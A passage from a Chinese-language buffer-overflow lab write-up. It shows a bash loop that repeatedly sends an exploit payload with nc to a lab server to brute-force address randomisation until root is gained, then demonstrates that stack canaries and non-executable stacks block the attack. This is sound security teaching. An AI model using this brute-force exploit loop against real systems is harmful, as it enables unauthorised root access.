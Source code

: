 可以看到地址随机变化

针对服务器一，运行以下脚本：

```bash
#!/bin/bash
SECONDS=0
value=0
while true; do
value=$(( $value + 1 ))
duration=$SECONDS
min=$(($duration / 60))
sec=$(($duration % 60))
echo "$min minutes and $sec seconds elapsed."
echo "The program has been running $value times so far."
cat badfile | nc 10.9.0.5 9090
done
```

![image-20251008201516268](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246539.png)

![image-20251008201530202](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246540.png)

大概循环107956次后获得root权限

# Task 7

### canary保护

开启-fstack-protector 选项时，编译器会自动在每个函数的栈帧中插入一个特殊的值，然后在函数返回前检查这个数值是否被改变。如果检测到改变，则说明存在缓冲区溢出攻击，进而触发安全检查并终止程序的执行。

去除掉-fno-stack-protector 的编译选项后重新编译 stack.c，将之前得到的badfile作为输入给stack-L1，运行结果如下：

![image-20251008194440417](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246541.png)

### 堆栈不可执行保护

在Ubuntu操作系统中，程序和共享库的二进制映像必须声明它们是否需要可执行堆栈，它们需要在程序头中标记一个字段。内核或动态链接器会使用该标记来决定是否将该运行程序的堆栈设置为可执行或不可执行。这种标记由gcc自动完成，它默认情况下会将堆栈设置为不可执行。

修改Makfile文件，将栈运行选项更改成不可执行选项

![image-20251008194837979](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246542.png)

重新编译并执行，发现程序报错，证明函数栈不能运行

![image-20251008194926463](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246543.png)